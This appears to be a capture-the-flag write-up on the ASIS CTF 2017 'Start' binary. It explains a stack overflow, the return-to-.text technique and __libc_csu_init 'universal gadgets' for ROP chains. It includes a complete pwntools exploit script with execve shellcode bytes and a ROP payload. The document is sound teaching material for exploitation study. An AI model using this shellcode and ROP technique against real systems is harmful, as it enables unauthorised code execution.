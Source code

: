 # Return to .text section / Universal gadgets
## Circumvent mitigation techniques cause of lacking ROP gadgets or libc addy

--------------------------------------------------------------------------------
### Return to .text section
For this post I will use a task called "Start" from ASIS CTF 2017 as an simple but in my opinion extremely useful example
For this task you will be provided with a service that just allows you to put in data to it. At first let's check for mitigation mechanisms as usual

```
checksec --file ./Start $
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

So all the mechanisms all disabled...Back to the 90's ?
Let's take a look into the assembly code:

```
push rbp
mov rbp, rsp
sub rsp, 0x20
mov dword [rbp - 0x14], edi
mov qword [rbp - 0x20], rsi
lea rax, qword [rbp - 0x10]
mov edx, 0x400
mov rsi, rax
mov edi, 0
call sym.imp.read
mov eax, 0
leave
ret
```
Ok...reservation of 32 bytes after rbp for locals and it's storing our read input buffer on stack regardless of the string's length we provide.
It's a simple overflow bug with allows us to do a classical RIP overwrite.

But wait...There isn't any information leak returning us any stack or libc addy. And besides that the binary is extremely small, so we won't be lucky in searching for any gadgets that allow us to do any stack pivoting.
#### "Prepare for the worst..."
Luckily there is a technique called "return to text" which can bypass the lack of any good gadgets regardless if ASLR is enabled or not.
Cause that binary isn't compiled with PIE, .text and .bss sections won't be randomized. In short terms this technique works as follows:

1. Overwrite RIP by the address of any function that can read user supplied data (e.g. read, gets...called "A" below)
2. Set return address after "A"
3. Set argument of "A"
4. When running "A" will ask for input data
5. Inject shellcode
6. When "A" finishes it will directly jump to our shellcode

#### x86-64 syscalls
If the binary is compiled for amd64 architecture any arguments provided to a function call will be passed by registers.
First in rdi, second in rsi, third in rdx, then rcx, r8, r9 and so on. If other arguments have to pass, they will have been pushed on the stack. Syscall num is provided by rax (you can use a tool called "shellnoob" to bet syscall nums).

#### Lack of gadgets
If you open the binary in any ROP-finding toolset, you will just find a total of 62 gadgets. It seems not to be possible to use any meaningful combination to set all the registers.
One possibility for circumvent would be to check if we have any register pointing to a location within our input buffer.
And voilá...When ```main``` returns it doesn't clear the registers:

```
gdb ./Start $
Loaded 101 commands.  Type pwndbg [filter] for a list.
Reading symbols from ./Start...(no debugging symbols found)...done.
pwndbg> r < <(python -c 'print "A"*32')
Starting program: /home/felix/Dokumente/CTF/asisCTF_2017/Start/Start < <(python -c 'print "A"*32')

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400551 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[───────────────────────────────────────────────────REGISTERS───────────────────────────────────────────────────]
 RAX  0x0
 RBX  0x0
*RCX  0x7ffff7b165a0 (__read_nocancel+7) ◂— cmp    rax, -0xfff
*RDX  0x400
 RDI  0x0
*RSI  0x7fffffffe230 ◂— 'AAAAAAAAAAAAAAA...'
*R8   0x4005d0 ◂— ret
*R9   0x7ffff7de8a50 (_dl_fini) ◂— push   rbp
*R10  0x37b
*R11  0x246
*R12  0x400430 ◂— xor    ebp, ebp
*R13  0x7fffffffe320 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x4141414141414141 ('AAAAAAAA')
*RSP  0x7fffffffe248 ◂— 'AAAAAAAA\n'
*RIP  0x400551 ◂— ret
```

#### Exploit
So we just have to put return addy to rsi and go on with a pop rsi gadget.
Payload will consist into rwo parts:

1. padding(24 bytes) + pop_rsi + read + ret addy + garbage + read_plt + ret addy
2. shellcode

```python
#!/usr/bin/env python

from pwn import *

r=process("./Start")
elf=ELF("./Start")
context.os="linux"
context.arch="amd64"
scode="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
read=elf.symbols['read']
pop_rsi_r15=0x004005c1
bss = elf.bss() + 0x100


def overwrite():
    padding = "\x90"*24
    payload = flat([padding,pop_rsi_r15, bss, "aaaabbbb", read, bss])
    log.info("Read  @ 0x{:08X}".format(read))
    log.info("BSS  @ 0x{:08X}".format(bss))
    raw_input("[DEBUG]")
    r.sendline(payload)
    r.sendline(scode)
    r.interactive()

def main():
    overwrite()
if __name__=="__main__":
    main()
```

### Using universal gadgets

We could also take advantage by the use of so called "universal gadgets"

>Every program before run into ```main()``` will call ```__libc_csu_init()```
>This function contains some useful gadgets to support you when preparing registers for sysalls

```
0000000000400550 <.__libc_csu_init>:

[*snip*]

4005a0:       4c 89 ea                mov    rdx,r13
4005a3:       4c 89 f6                mov    rsi,r14
4005a6:       44 89 ff                mov    edi,r15d
4005a9:       41 ff 14 dc             call   QWORD PTR [r12+rbx*8]

[*snip*]

4005ba:       5b                      pop    rbx
4005bb:       5d                      pop    rbp
4005bc:       41 5c                   pop    r12
4005be:       41 5d                   pop    r13
4005c0:       41 5e                   pop    r14
4005c2:       41 5f                   pop    r15
4005c4:       c3                      ret
```

Last seven instructions will pop values to registers and then return. Main idea will be to call these instructions/gadgets and jump to the first four after all.
So the ROP chain will look like this:

1. Sequence 1:
| pop rbx       | this register must be zero (it will be explained later on) |
| pop rbp       | must be equal to one                                       |
| pop r12       | address of instruction address                             |
| pop r13       | how many bytes to read                                     |
| pop r14       | destination address of shellcode (e.g. .bss + 0x100)       |
| pop r15       | some garbage                                               |
| ret           | put naxt garbage address                                   |

2. Sequence 2:

| mov rdx,r13                   | set 3rd argument                                           |
| mov rsi,r14                   | set 2nd argument                                           |                                  
| mov edi,r15d                  | [1]                                                        |                                  
| call QWORD PTR [r12+rbx*8]    | [2]                                                        |
| add rbx, 1                      | [3]                                                      |
| cmp rbx, rbp                    | [3]                                                        |
| jne 0x40059                     | [3]                                                        |
| add rsp, 0x8                    | [4]                                                        |                                    
| pop rbx                         | put garbage                                                |
| pop rbp                         | put garbage                                                |
| pop r12                         | put garbage                                                |
| pop r13                         | put garbage                                                |
| pop r14                         | put garbage                                                |
| pop r15                         | put garbage                                                |
| ret                             | .bss + 0x100                                               |
